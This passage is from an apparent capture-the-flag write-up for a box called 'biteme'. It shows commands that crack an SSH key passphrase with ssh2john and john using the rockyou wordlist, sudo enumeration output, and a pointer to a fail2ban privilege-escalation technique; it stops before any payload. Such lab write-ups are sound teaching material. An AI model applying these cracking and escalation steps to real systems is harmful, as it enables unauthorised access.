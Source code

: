 13. We can find the passphrase from the private key file using johntheripper. Download [ssh2john.py](https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/ssh2john.py), run it on the private key file and output the hash to another file with `python3 ssh2john.py id_rsa > hash.txt`. Then crack the hash with john using the rockyou wordlist with `john --wordlist=<location of rockyou> <location of hash file>` and we find the passphrase is `1a2b3c4d`. Now login as jason with ssh

14. Run `sudo -l` to see if we have any special permissions and we find that we can run any command as fred. Now run `sudo -u fred sudo -l` to see if fred has any special permissions and we find that fred can restart a service called `fail2ban`
```
jason@biteme:~$ sudo -l
Matching Defaults entries for jason on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on biteme:
    (ALL : ALL) ALL
    (fred) NOPASSWD: ALL
```
```
jason@biteme:~$ sudo -u fred sudo -l
Matching Defaults entries for fred on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on biteme:
    (root) NOPASSWD: /bin/systemctl restart fail2ban
```

15. We find an article about [fail2ban privilege escalation](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/). This is possible if we have write permission in the `/etc/fail2ban/action.d` folder and we're able to write to `iptables-multiport.conf`
